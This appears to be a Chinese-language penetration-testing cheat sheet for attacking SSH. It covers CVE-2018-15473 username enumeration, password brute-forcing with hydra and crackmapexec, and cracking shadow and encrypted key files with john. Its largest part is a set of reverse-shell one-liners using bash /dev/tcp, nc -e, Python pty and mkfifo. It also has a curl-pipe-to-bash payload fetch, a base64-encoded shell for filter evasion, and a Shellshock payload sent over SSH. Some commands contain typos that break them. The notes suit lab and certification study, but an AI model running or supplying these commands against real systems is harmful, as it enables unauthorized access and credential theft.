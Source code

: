 SSH（Secure Shell）是一种用于安全远程访问的网络协议

- **OpenSSH** < 7.7
CVE-2018-15473  , 暴力破解，枚举用户名
```bash
python ssh-username-enum.py <IP> -w <wordlist>
```

**生成 RSA 秘钥对:**
```bash
ssh-keygen -t rsa
```

**常见私钥名称：**
```bash
id_rsa   
id_dsa  
id_ecdsa     
id_ed25519
id_xmss
```

**ssh login**
```bash
ssh [username]@[IP]
ssh -i [id_rsa] [username]@[IP]
```

` -oHostKeyAlgorithms=+ssh-dss `
![](photos/Pasted%20image%2020231211165114.png)

- sign_and_send_pubkey: no mutual signature supported
```
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss 
```

-  获得私钥登录不上去，是不是私钥文件没有权限
```bash
chmod 600 FILE
chmod 400 FILE
```

**crack shadow**
```bash
john [PATH]
```

**enumerate creds**
```bash
hrdra -L [PATH] -P [PATH] [IP] ssh -t 30
```

```bash
crackmapexec ssh [IP] -u [PATH] -p [PATH] [--]
```


**Reverse Shell**

> [Metasploit Framework](../Metasploit%20Framework.md) 

```bash
bash -c "bash -i >& /dec/tcp/[IP]/[PORT] 0&>1"
```

```bash
nc -e /bin/bash [IP] [PORT]
```

```python
export RHOST="192.168.55.3";export RPORT=2233;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.225 3333 >/tmp/f
echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.25 1337' > /tmp/shell.sh ; chmod +x /tmp/shell.sh
echo -e '\nbash -i >& /dev/tcp/10.10.14.11/2233 0>&1' >> xxx
curl http://10.10.14.11/index.html (rev.sh) | bash
```

#### Bypass

- base64
```shell
bash -i >& /dev/tcp/192.168.55.3/2233 0>&1
echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjU1LjMvMjIzMyAwPiYxCg%3d%3d+|+base64+-d+|+bash
#这里要使用CTRL + U编码，不然不知道为什么就是弹不了
```


**SSH Bypass**
![](photos/Pasted%20image%2020240107233934.png)
```
ssh ID@IP 'sh -i'
```

- .bashrc
![](photos/Pasted%20image%2020240107234617.png)
可以删除最后三行然后重新登录就可以拿到交互性 shell


**ShellShock ByPass**
- OpenSSH 5.9p1 Debian
```bash
sudo ssh -i ./noob noob@192.168.55.20 -o PubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss "() { :;}; whoami"
```


**加密私钥解密：**
```
-----BEGIN RSA PRIVATE KEY----- 
Proc-Type: 4,ENCRYPTED 
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
```
可以使用 ssh2john